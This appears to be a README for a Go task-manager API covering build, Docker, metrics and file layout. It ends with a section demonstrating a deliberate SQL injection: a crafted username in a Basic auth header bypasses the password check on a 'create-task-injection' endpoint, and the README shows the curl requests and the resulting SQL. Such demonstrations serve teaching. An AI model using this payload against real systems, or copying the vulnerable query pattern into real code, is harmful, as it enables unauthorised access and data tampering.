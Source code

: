 ## Run / Build

---

Run only

```shell
make run
```

Build only

```shell
make build
```

## Docker-compose

---

```shell
make c.build
```

```shell
make c.up
```

## Docs

---

http://127.0.0.1:45222/doc/index.html

## Tests

---

```shell
make tests
```

## Metrics

---

### Prometheus

```yaml
# prometheus.yml

- job_name: api-tm
  scrape_interval: 15s
  static_configs:
    - targets:
      - 127.0.0.1:45222
```

**api_tm_request_http_requests_total** - total number of requests, their methods and paths.

![Total requests](docs/grafana-example.png)

## Files

- _docs/*_ - swagger files(OpenAPI)
- _configs/conf.toml_ - settings
- _scripts/create_tables.sql_ - postgres tables 
- _logs/app.log_ - api errors 

## Manual run / building / generation

---

#### OpenAPI(generation)

```shell
swag init -g cmd/app/main.go
```

#### Tests

```shell
go test -failfast ./...
```

#### Run only

```shell
go run cmd/app/main.go
```

#### Build and run

```shell
go build -o apitm cmd/app/main.go
```

```shell
./apitm
```

#### Docker(local DB)

```shell
docker build . -t apitm:v0.1
```

```shell
docker run --rm --network=host apitm:v0.1
```

#### Docker-compose

```shell
docker-compose build
```

```shell
docker-compose up
```

## Example SQL-injection

---

### Create new user -> qwerty:qwerty 

```shell
curl -u admin:admin --location 'http://127.0.0.1:45222/api/v1/manage/user' \
--header 'Content-Type: application/json' \
--data '{
    "username": "qwerty",
    "password": "qwerty"
}'
```

### Create task with injection

USERNAME - **qwerty'), false, 'title', now(), now()) -- '**

PASSWORD - **any**

```shell
curl --location 'http://127.0.0.1:45222/api/v1/task/create-task-injection' \
--header 'Authorization: Basic cXdlcnR5JyksIGZhbHNlLCAnU1FMLWlJTkpFQ1RJT04nLCBub3coKSwgbm93KCkpIC0tICc6YW55' \
--header 'Content-Type: application/json' \
--data '{
    "title": "SQL INJECTION"
}'
```

#### Response - Internal Server Error(500)

```json
{
    "type": "INTERNAL",
    "comment": "create task"
}
```

#### But the task has been created. Because the request to the database:

```sql
INSERT INTO
    task(user_id, status, title, created, updated)
VALUES
    ((SELECT user_id FROM auth WHERE username = 'qwerty'), false, 'SQL-iINJECTION', now(), now()) -- '' AND password = 'df69d4a3aa4eca782c7cb526841c7e60fb6015806c2ef41df95bfa1afe8427a6'), false, 'SQL INJECTION', now(), now()) RETURNING  task_id  
```

#### DB rows

![Example SQL-injection](docs/sql-injection.png)




